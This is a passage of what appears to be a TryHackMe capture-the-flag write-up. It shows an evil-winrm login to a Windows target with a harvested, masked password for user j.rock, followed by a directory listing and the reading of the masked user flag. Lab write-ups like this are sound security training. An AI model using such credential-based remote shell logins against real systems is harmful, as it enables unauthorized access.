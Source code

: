 <p><code>j.rock</code> : <code>*************</code></p>

<br>

<h3>evil-winrm</h3>

```bash
:~/Services# evil-winrm -u j.rock -p '*************' -i TargetIP
...                                        
*Evil-WinRM* PS C:\Users\j.rock> dir


    Directory: C:\Users\j.rock


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        2/15/2023   5:55 AM                Desktop
d-r---        2/15/2023   5:48 AM                Documents
d-r---        9/15/2018   7:19 AM                Downloads
d-r---        9/15/2018   7:19 AM                Favorites
d-r---        9/15/2018   7:19 AM                Links
d-r---        9/15/2018   7:19 AM                Music
d-r---        9/15/2018   7:19 AM                Pictures
d-----        9/15/2018   7:19 AM                Saved Games
d-r---        9/15/2018   7:19 AM                Videos
```


```bash
*Evil-WinRM* PS C:\Users\j.rock\Desktop> dir


    Directory: C:\Users\j.rock\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        2/15/2023   5:55 AM             44 user.txt


*Evil-WinRM* PS C:\Users\j.rock\Desktop> type user.txt
THM{**************}
```

<br>

<p>1.1. What is the user flag?<br>
<code>THM{**************}</code></p>

<br>

<br>
